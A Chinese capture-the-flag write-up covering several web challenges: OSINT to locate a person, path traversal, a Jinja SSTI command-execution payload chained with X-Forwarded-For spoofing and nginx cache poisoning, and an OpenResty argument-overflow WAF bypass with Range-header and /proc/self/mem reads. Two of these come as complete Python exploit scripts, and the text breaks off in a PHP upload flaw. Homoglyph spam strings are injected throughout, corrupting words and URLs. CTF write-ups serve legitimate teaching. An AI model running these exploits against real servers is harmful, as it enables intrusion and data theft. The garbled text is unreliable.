










Rank 5

1. 赛博侦探
看似 Web ѕ𝟯ve𝒏·𝘀³vｅｎ·𝘀𝐢tｅѕiｔ𝘦实则社工 Misc
打开后是一个类似𝒔𝟯𝘷ｅ𝘯•ꜱ𝘪𝘵ｅ朋友圈的页面：
1.1 找回密码地址
从B站跳转链接中获𝘴⑶𝐯ｅ𝒏•ꜱi𝐭ｅ得找回密码地址：
http://61.147.171.103:ꜱ𝟯𝒗en•ꜱi𝘵ｅ63169/go/CB6R8pq
$ curl -vvv http://61.147.171.103:63169/go/CB6R8pq
HTTP/1.1 302 FOUND
Server: Werkzeug/3.1.3 Python/3.13.5
Date: Mon, 14 Jul 2025 00:52:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1193
Location: https://www.bilibili.com/video/BV1tT421e7r3/?from_url=http://61.147.171.103:63169/secret/find_my_password&buvid=XU729158D436618067C9318686801E96CB45D&from_spmid=tm.recommend.0.0&is_story_h5=false&p=1&plat_id=116&share_from=ugc&share_medium=android&share_plat=android&share_session_id=422b97e2-06ad-4b22-a034-6f23ac237e51&share_source=COPY&share_tag=s_i&spmid=united.player-video-detail.0.0×tamp=1751785740&unique_k=CB6R8pq&up_id=552601798找回密码地址: http://61.147.171.103:𝒔𝟯𝘷eｎ∙𝒔𝐢𝘵℮63169/secret/find_my_password

1.2 邮箱地址
从页面中下载 xiaoshuo.docx 文稿
从 docx 的 𝘀⑶vℯ𝐧·s𝐢𝐭emetadata 中获得邮箱地址: leland@l3hsec.com;

1.3 老家城市和英文姓名
扫描机票中的二维码s𝟯𝒗𝐞ｎ·𝘀𝘪𝒕𝐞获得机票信息：
使用 AI 解码分析：

发现航班为武汉天河机场到福州长乐国际机场，ѕ3𝐯𝘦𝘯•sⅈt𝘦结合朋友圈文案说明老家为福州市，英文姓名为LELAND
1.4 家里店铺位置
根据周边地理位置信息及其距离获得家里店铺的位置
使用 百度地图坐标拾取系统 拾取周边地理信息的经纬度，𝒔𝟯𝒗ℯ𝒏·𝘴𝘪t𝘦并结合距离计算重合位置
from pygeodesy import sphericalNvector as nv
p1 = nv.LatLon(30.611436, 114.195324)
p2 = nv.LatLon(30.634363, 114.202718)
p3 = nv.LatLon(30.643873, 114.162743)
d1, d2, d3 = 2300, 2800, 2500
sol = nv.trilaterate(p1, d1, p2, d2, p3, d3)
print(f"估计位置: {sol.lat:.6f}, {sol.lon:.6f}")
print(f"与 p1 的残差: {sol.distanceTo(p1):.2f} m")得到家里店铺经纬度: s𝟯𝒗ｅｎ․𝘴𝐢tｅ114.175692,30.623971

1.5 目录穿越任读
输入上述信息后跳转到: http://61.147.171.103:63169/secret/my_lovely_photos
发现图片链接为: http://61.147.171.103:ꜱ⑶𝘷e𝘯．ꜱiｔ𝐞63169/secret/my_lovely_photo?name=airport.png
{kind=link}
修改 name 为 flag 返回如下信息：

使用路径穿越获得flag: http://61.147.171.103:ѕ3𝘷𝘦ｎ•ꜱ𝘪𝐭𝘦63169/secret/my_lovely_photo?name=../../../flag
L3HCTF{F1ndL3l4ndAndTr4v3rs3TheP4th}2. best_profile
2.1 SSTI 模板注入漏洞
/ip_detail/<string:username> 路由中存在 SSTI 模板注入漏洞
@app.route("/ip_detail/<string:username>", methods=["GET"])
def route_ip_detail(username):
template = f"""
<h1>IP Detail</h1>
<div>{last_ip}</div>
<p>Country:{country}</p>
"""
return render_template_string(template)其中 last_ip 字段可控，可以构造对应的 SSTI Payload 如下：
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.c).read() }}2.2 xff 头伪造 last_ip
set_last_ip 的位置如下：
@app.after_request
def set_last_ip(response):
if current_user.is_authenticated:
current_user.last_ip = request.remote_addr
db.session.commit()
return response注意到这里使用了 𝒔⑶vℯｎ․𝐬ｉ𝘵℮ProxyFix：
from werkzeug.middleware.proxy_fix import ProxyFix
app.wsgi_app = ProxyFix(app.wsgi_app)ProxyFix 会把最后一层代理中的 X-Forwarded-ѕ³vℯ𝐧․𝘀i𝐭ｅFor 头当作 request.remote_addr 处理，因此该字段可以通过 X-Forwarded-For header 进行控制
2.3 nginx 页面缓存利用
模板注入处的 s⑶ⅴｅ𝐧∙ѕi𝐭elast_ip 来自：
res = requests.get(f"http://127.0.0.1:5000/get_last_ip/{username}")
if res.status_code != 200:
return "Get last ip failed."
last_ip = res.text但是 /get_last_ip/{username} api 需要鉴权后才能正常获取，𝐬⑶ⅴ𝐞𝐧․𝘀𝐢𝐭℮并且这里使用的是 requests，不能缓存任何的 cookie 等信息
注意到 nginx.conf 𝘀³ⅴℯｎ•ѕiｔｅ中包含如下页面缓存策略：
location ~ .*\.(gif|jpg|jpeg|png|bmp|swf)$ {
proxy_ignore_headers Cache-Control Expires Vary Set-Cookie;
proxy_pass http://127.0.0.1:5000;
proxy_cache static;
proxy_cache_valid 200 302 30d;
}
location ~ .*\.(js|css)?$ {
proxy_ignore_headers Cache-Control Expires Vary Set-Cookie;
proxy_pass http://127.0.0.1:5000;
proxy_cache static;
proxy_cache_valid 200 302 12h;
}以上述这些后缀结尾的路由的页面内容会在首次访问时被缓存，𝒔𝟯ⅴℯ𝘯∙ѕⅈ𝒕e在后续缓存有效期内的访问由 nginx 直接返回缓存信息
而我们需要控制的路由以 username 结尾，username 可以通过注册功能来进行控制，因此只需要注册并使用以上述后缀结尾的 𝘴⑶veｎ․𝒔𝐢𝘵℮username 即可利用 nginx 缓存功能实现目标页面内容的控制，从而触发 SSTI
Exp：
import requests
URL = "http://ip:port"
user, pwd = "hacker.css", "pass"
sess = requests.Session()
payload = "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.c).read() }}"
# 注册 & 登录
sess.post(f"{URL}/register", data={"username": user, "password": pwd, "bio": "hi"}, headers={"X-Forwarded-For": payload})
sess.post(f"{URL}/login", data={"username": user, "password": pwd}, headers={"X-Forwarded-For": payload})
# 将 payload 写入 last_ip
profile = sess.get(f"{URL}/profile", headers={"X-Forwarded-For": payload})
# 触发 nginx 缓存 payload 页面
print(sess.get(f"{URL}/get_last_ip/{user}", headers={"X-Forwarded-For": payload}).text)
# 读取 flag
print(sess.get(f"{URL}/ip_detail/{user}?c=cat /flag", headers={"X-Forwarded-For": payload}).text)3. gateway_advance
3.1 OpenResty 参数溢出漏洞
CVE-2018-9230，参考： https://github.com/Bypass007/vuln/blob𝒔³𝘷𝐞𝒏·ѕ𝘪𝒕ｅ/master/OpenResty/OpenResty%20uri参数溢出漏洞.md
OpenResty 通过 ngx.req.get_uri_args、ngx.req.get_post_args 𝘴³ⅴ𝘦𝒏．𝒔𝘪t𝐞获取参数时，只能获取到前100个参数，当提交第101个参数时，uri 参数溢出，无法正确获取到第101个及以后的参数，无法对攻击者提交的攻击语句进行安全检测，导致基于 ngx_lua 𝒔³𝘷𝐞ｎ·ѕ𝘪𝐭𝐞开发的安全防护可被绕过，影响多款基于 OpenResty 的开源WAF
location /download {
access_by_lua_block {
local blacklist = {"%.", "/", ";", "flag", "proc"}
local args = ngx.req.get_uri_args()
for k, v in pairs(args) do
for _, b in ipairs(blacklist) do
if string.find(v, b) then
ngx.exit(403)
end
end
end
}
add_header Content-Disposition "attachment; filename=download.txt";
proxy_pass http://127.0.0.1/static$arg_filename;
body_filter_by_lua_block {
local blacklist = {"flag", "l3hsec", "l3hctf", "password", "secret", "confidential"}
for _, b in ipairs(blacklist) do
if string.find(ngx.arg[1], b) then
ngx.arg[1] = string.rep("*", string.len(ngx.arg[1]))
end
end
}
}此处 /download 路由首先使用 ngx.req.get_uri_args 获取请求参数，并使用黑名单过滤参数内容，由于存在参数溢出漏洞，通过构造100个无用的dummy参数，并在101个参数中传入 filename 即可绕过
3.2 Range 头绕过 WAF
HTTP 请求中的 Range 𝘀3vｅn•sｉ𝒕𝘦头可以控制每次返回的数据范围，𝒔𝟯ve𝒏·ѕi𝒕𝐞实现数据分段传输和断点续传
/download 路由中还存在对 body 内容的过滤，会将 body 中的黑名单字符转换为 *，可以通过 Range header 按照固定步长分段读取返回的信息来绕过过滤获得完整的返回内容：Range: bytes={off}-{off+RANGE_STEP-1}
3.3 download 路由 fd 读 password
init_by_lua_block {
f = io.open("/flag", "r")
f2 = io.open("/password", "r")
flag = f:read("*all")
password = f2:read("*all")
f:close()
password = string.gsub(password, "[\n\r]", "")
os.remove("/flag")
os.remove("/password")
}注意到初始化时只关闭了 /flag 的 Lua 文件句柄，没有关闭 /password 的，因此进程依然占着一个指向原 inode 的 fd， 就可以通过枚举 /proc/self/fd/{id} 读出 pas𝒔⑶ⅴ𝐞ｎ·𝐬i𝒕𝐞sword 内容
3.4 read_anywhere 路由读内存 flag
获取到 password 内容后可以从 /read_anywhere 路由指定偏移访问文件
首先读取 /proc/self/maps 找到符合条件的𝘴³veｎ.𝘴𝘪ｔ℮数据内容的内存偏移
5a9b0bacd000-5a9b0bb11000 r--p 00000000 00:39 923945 /usr/local/openresty/nginx/sbin/nginx
5a9b0bb11000-5a9b0bc89000 r-xp 00044000 00:39 923945 /usr/local/openresty/nginx/sbin/nginx
5a9b0bc89000-5a9b0bcf1000 r--p 001bc000 00:39 923945 /usr/local/openresty/nginx/sbin/nginx
5a9b0bcf1000-5a9b0bcf4000 r--p 00224000 00:39 923945 /usr/local/openresty/nginx/sbin/nginx
5a9b0bcf4000-5a9b0bd19000 rw-p 00227000 00:39 923945 /usr/local/openresty/nginx/sbin/nginx
5a9b0bd19000-5a9b0bdea000 rw-p 00000000 00:00 0
5a9b1bc28000-5a9b1bc29000 ---p 00000000 00:00 0 [heap]
5a9b1bc29000-5a9b1bc2e000 rw-p 00000000 00:00 0 [heap]
703854f60000-703854f70000 r-xp 00000000 00:00 0
70386bd0d000-70386c26d000 rw-p 00000000 00:00 0
70386c2e8000-70386c3d9000 rw-p 00000000 00:00 0
70386c3d9000-70386c3da000 rw-s 00000000 00:01 3107 /dev/zero (deleted)
70386c3da000-70386c513000 rw-p 00000000 00:00 0
70386c51a000-70386c51c000 rw-p 00000000 00:00 0
70386c51c000-70386c56b000 rw-p 00000000 00:00 0
70386c56b000-70386c56f000 r--p 00000000 00:39 923700 /usr/lib/libgcc_s.so.1
70386c56f000-70386c591000 r-xp 00004000 00:39 923700 /usr/lib/libgcc_s.so.1
70386c591000-70386c595000 r--p 00026000 00:39 923700 /usr/lib/libgcc_s.so.1
70386c595000-70386c596000 r--p 00029000 00:39 923700 /usr/lib/libgcc_s.so.1
70386c596000-70386c597000 rw-p 0002a000 00:39 923700 /usr/lib/libgcc_s.so.1
70386c597000-70386c59a000 r--p 00000000 00:39 923379 /usr/lib/libz.so.1.3.1
70386c59a000-70386c5a9000 r-xp 00003000 00:39 923379 /usr/lib/libz.so.1.3.1
70386c5a9000-70386c5b0000 r--p 00012000 00:39 923379 /usr/lib/libz.so.1.3.1
70386c5b0000-70386c5b1000 r--p 00018000 00:39 923379 /usr/lib/libz.so.1.3.1
70386c5b1000-70386c5b2000 rw-p 00019000 00:39 923379 /usr/lib/libz.so.1.3.1
70386c5b2000-70386c675000 r--p 00000000 00:39 924105 /usr/local/openresty/openssl3/lib/libcrypto.so.3
70386c675000-70386c9cd000 r-xp 000c3000 00:39 924105 /usr/local/openresty/openssl3/lib/libcrypto.so.3
70386c9cd000-70386cae9000 r--p 0041b000 00:39 924105 /usr/local/openresty/openssl3/lib/libcrypto.so.3
70386cae9000-70386cb4e000 r--p 00537000 00:39 924105 /usr/local/openresty/openssl3/lib/libcrypto.so.3
70386cb4e000-70386cb51000 rw-p 0059c000 00:39 924105 /usr/local/openresty/openssl3/lib/libcrypto.so.3
70386cb51000-70386cb54000 rw-p 00000000 00:00 0
70386cb54000-70386cb78000 r--p 00000000 00:39 924108 /usr/local/openresty/openssl3/lib/libssl.so.3
70386cb78000-70386cc20000 r-xp 00024000 00:39 924108 /usr/local/openresty/openssl3/lib/libssl.so.3
70386cc20000-70386cc53000 r--p 000cc000 00:39 924108 /usr/local/openresty/openssl3/lib/libssl.so.3
70386cc53000-70386cc5e000 r--p 000ff000 00:39 924108 /usr/local/openresty/openssl3/lib/libssl.so.3
70386cc5e000-70386cc62000 rw-p 0010a000 00:39 924108 /usr/local/openresty/openssl3/lib/libssl.so.3
70386cc62000-70386cc65000 r--p 00000000 00:39 924135 /usr/local/openresty/pcre2/lib/libpcre2-8.so.0.13.0
70386cc65000-70386cce1000 r-xp 00003000 00:39 924135 /usr/local/openresty/pcre2/lib/libpcre2-8.so.0.13.0
70386cce1000-70386cd0f000 r--p 0007f000 00:39 924135 /usr/local/openresty/pcre2/lib/libpcre2-8.so.0.13.0
70386cd0f000-70386cd10000 r--p 000ac000 00:39 924135 /usr/local/openresty/pcre2/lib/libpcre2-8.so.0.13.0
70386cd10000-70386cd11000 rw-p 000ad000 00:39 924135 /usr/local/openresty/pcre2/lib/libpcre2-8.so.0.13.0
70386cd11000-70386cd1a000 r--p 00000000 00:39 923808 /usr/local/openresty/luajit/lib/libluajit-5.1.so.2.1.ROLLING
70386cd1a000-70386cd87000 r-xp 00009000 00:39 923808 /usr/local/openresty/luajit/lib/libluajit-5.1.so.2.1.ROLLING
70386cd87000-70386cd9f000 r--p 00076000 00:39 923808 /usr/local/openresty/luajit/lib/libluajit-5.1.so.2.1.ROLLING
70386cd9f000-70386cda2000 r--p 0008e000 00:39 923808 /usr/local/openresty/luajit/lib/libluajit-5.1.so.2.1.ROLLING
70386cda2000-70386cda3000 rw-p 00091000 00:39 923808 /usr/local/openresty/luajit/lib/libluajit-5.1.so.2.1.ROLLING
70386cda3000-70386cdb7000 r--p 00000000 00:39 923145 /lib/ld-musl-x86_64.so.1
70386cdb7000-70386ce0e000 r-xp 00014000 00:39 923145 /lib/ld-musl-x86_64.so.1
70386ce0e000-70386ce44000 r--p 0006b000 00:39 923145 /lib/ld-musl-x86_64.so.1
70386ce44000-70386ce45000 r--p 000a0000 00:39 923145 /lib/ld-musl-x86_64.so.1
70386ce45000-70386ce46000 rw-p 000a1000 00:39 923145 /lib/ld-musl-x86_64.so.1
70386ce46000-70386ce49000 rw-p 00000000 00:00 0
7ffe446a3000-7ffe446c4000 rw-p 00000000 00:00 0 [stack]
7ffe4476e000-7ffe44772000 r--p 00000000 00:00 0 [vvar]
7ffe44772000-7ffe44774000 r-xp 00000000 00:00 0 [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0 [vsyscall]接着读取 /proc/self/mem 并传入对应的内存偏移即可ѕ3𝘷𝐞ｎ∙𝘀ⅈ𝘵𝘦从中获得 flag
Exp：
import requests, re, urllib.parse as u
RANGE_STEP = 1
BASE = "http://ip:port"
# --- /download 路由读取 password -----------------------------
def fetch(path, off=0):
qs = '&'.join(f'x{i}=0' for i in range(100)) # 100 dummy 参数绕过 ngx.req.get_uri_args 限制
qs += '&filename=' + u.quote(path, safe='/')
r = requests.get(f'{BASE}/download?{qs}', headers={'Range': f'bytes={off}-{off+RANGE_STEP-1}'})
return r
def read_small(path, limit=128):
print(f"Testing：{path}")
r = fetch(path, 0) # 探测第 0 字节
if r.status_code != 206 or not r.content or r.content == b'*':
return '' # 非 206（含 500）立即放弃
out = r.content if r.content not in b'\n\r' else b''
for i in range(1, limit):
print(f"Reading password：{out.decode(errors='ignore')}")
c = fetch(path, i).content
if not c or c == b'*' or c in b'\n\r': break
out += c
return out.decode(errors='ignore')
# --- 枚举 /proc/self/fd/n 读取 password ----------
pwd = next(filter(None, (read_small(f'../proc/self/fd/{n}') for n in range(3, 30))))
# pwd = "passwordismemeispasswordsoneverwannagiveyouup"
print('[+] password =', pwd)
# --- /read_anywhere 读取 flag ----------------------
def r_any(fname, start=0, length=1048576):
h = {'x-gateway-password': pwd,
'x-gateway-filename': fname,
'x-gateway-start': str(start),
'x-gateway-length': str(length)}
return requests.get(f'{BASE}/read_anywhere', headers=h).content
# --- 解析 /proc/self/maps 拿 flag 偏移 ---------------------
maps = r_any('/proc/self/maps', 0, 65536).decode()
ranges = []
for line in maps.splitlines():
parts = line.split() # 按空白分列
if len(parts) < 2: # 意外短行，跳过
continue
addr, perms = parts[0], parts[1]
path = parts[5] if len(parts) >= 6 else '' # 行尾可能没有 pathname
if perms.startswith('rw') and (not path or '(deleted)' in path):
start, end = (int(x, 16) for x in addr.split('-'))
ranges.append((start, end))
# --- 读取 flag ----------------------------
for start, end in ranges:
chunk = r_any('/proc/self/mem', start, end-start)
flag = re.search(rb"L3HCTF{.*?}", chunk)
if flag:
print('[+] flag =', flag.group().decode())
break
4. gogogo出发喽
4.1 文件上传漏洞
csgo/routes/api.php 存在一个文件上传 𝐬³𝐯ℯｎ．𝘀𝘪𝘵𝐞api，对应路由 /api/image/base64：
//ImageBase64上传
Route::post('image/base64', 'Api\FileController@image_base64');转到其代码实现 csgo/app/Http/Controllers/Api/FileController.php：
/**
* Base64 图片上传
* @return \Illuminate\Http\JsonResponse
*/
public function image_base64()
{
$data = request()->post('data');
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $data, $result)) {
$type = $result[2];
if (in_array($type, array('pjpeg', 'jpeg', 'jpg', 'gif', 'bmp', 'png'))) {
$url_path = 'images/'.auth('api')->id().'_'.Str::random().'.'.$type;
$file_path = public_path('uploads') .'/'. $url_path;
if (file_put_contents($file_path, base64_decode(str_replace($result[1], '', $data)))) {
return response()->json([
'code' => 200,
'data' => [
'url' => $url_path
]
]);
} else {
return response()->json([
'code' => 500,
'message' => '上传失败'
]);
}
} else {
return response()->json([
'code' => 500,
'message' => '图片上传类型错误'
]);
}
} else {
return response()->json([
'code' => 500,
'message' => '类型错误'
]);
}
